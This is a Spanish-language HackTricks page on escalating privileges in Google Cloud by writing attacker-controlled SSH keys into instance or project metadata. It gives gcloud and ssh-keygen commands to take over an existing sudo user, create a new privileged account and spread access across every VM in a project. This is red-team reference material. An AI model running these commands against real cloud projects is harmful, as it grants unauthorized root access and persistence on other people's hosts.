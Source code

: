 # GCP - Agregar Metadatos SSH Personalizados

<details>

<summary><strong>Aprende hacking en AWS desde cero hasta experto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén [**artículos oficiales de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Modificando los metadatos <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

La modificación de metadatos en una instancia podría llevar a **riesgos significativos de seguridad si un atacante obtiene los permisos necesarios**.

### **Incorporación de Claves SSH en Metadatos Personalizados**

En GCP, los **sistemas Linux** a menudo ejecutan scripts desde el [Entorno de Invitado de Linux de Python para Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Un componente crítico de esto es el [daemon de cuentas](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), que está diseñado para **verificar regularmente** el punto final de metadatos de la instancia en busca de **actualizaciones de las claves públicas SSH autorizadas**.

Por lo tanto, si un atacante puede modificar metadatos personalizados, podría hacer que el daemon encuentre una nueva clave pública, que será procesada e **integrada en el sistema local**. La clave se agregará al archivo `~/.ssh/authorized_keys` de un **usuario existente o potencialmente creando un nuevo usuario con privilegios `sudo`**, dependiendo del formato de la clave. Y el atacante podrá comprometer el host.

### **Agregar clave SSH a un usuario privilegiado existente**

1. **Examinar las Claves SSH Existentes en la Instancia:**
- Ejecuta el comando para describir la instancia y sus metadatos para localizar las claves SSH existentes. La sección relevante en la salida estará bajo `metadata`, específicamente la clave `ssh-keys`.
```bash
gcloud compute instances describe [INSTANCIA] --zone [ZONA]
```
- Presta atención al formato de las claves SSH: el nombre de usuario precede a la clave, separados por dos puntos.

2. **Preparar un Archivo de Texto para los Metadatos de la Clave SSH:**
- Guarda los detalles de los nombres de usuario y sus claves SSH correspondientes en un archivo de texto llamado `meta.txt`. Esto es esencial para preservar las claves existentes mientras se agregan nuevas.

3. **Generar una Nueva Clave SSH para el Usuario Objetivo (`alice` en este ejemplo):**
- Utiliza el comando `ssh-keygen` para generar una nueva clave SSH, asegurándote de que el campo de comentario (`-C`) coincida con el nombre de usuario objetivo.
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- Agrega la nueva clave pública a `meta.txt`, imitando el formato encontrado en los metadatos de la instancia.

4. **Actualizar los Metadatos de la Clave SSH de la Instancia:**
- Aplica los metadatos de la clave SSH actualizados a la instancia utilizando el comando `gcloud compute instances add-metadata`.
```bash
gcloud compute instances add-metadata [INSTANCIA] --metadata-from-file ssh-keys=meta.txt
```

5. **Acceder a la Instancia Usando la Nueva Clave SSH:**
- Conéctate a la instancia con SSH utilizando la nueva clave, accediendo al shell en el contexto del usuario objetivo (`alice` en este ejemplo).
```bash
ssh -i ./key alice@localhost
sudo id
```

### **Crear un nuevo usuario privilegiado y agregar una clave SSH**

Si no se encuentra ningún usuario interesante, es posible crear uno nuevo al que se le otorgarán privilegios `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### Claves SSH a nivel de proyecto <a href="#sshing-around" id="sshing-around"></a>

Es posible ampliar el alcance del acceso SSH a múltiples Máquinas Virtuales (VMs) en un entorno de nube mediante la **aplicación de claves SSH a nivel de proyecto**. Este enfoque permite el acceso SSH a cualquier instancia dentro del proyecto que no haya bloqueado explícitamente las claves SSH a nivel de proyecto. Aquí tienes una guía resumida:

1. **Aplicar Claves SSH a Nivel de Proyecto:**
- Utiliza el comando `gcloud compute project-info add-metadata` para agregar claves SSH desde `meta.txt` a los metadatos del proyecto. Esta acción asegura que las claves SSH sean reconocidas en todas las VMs del proyecto, a menos que una VM tenga habilitada la opción "Bloquear claves SSH a nivel de proyecto".
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **Acceder a las Instancias Utilizando Claves a Nivel de Proyecto:**
- Con las claves SSH a nivel de proyecto en su lugar, puedes acceder por SSH a cualquier instancia dentro del proyecto. Las instancias que no bloquean las claves a nivel de proyecto aceptarán la clave SSH, otorgando acceso.
- Un método directo para acceder por SSH a una instancia es utilizando el comando `gcloud compute ssh [INSTANCIA]`. Este comando utiliza tu nombre de usuario actual y las claves SSH establecidas a nivel de proyecto para intentar el acceso.


# Referencias
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
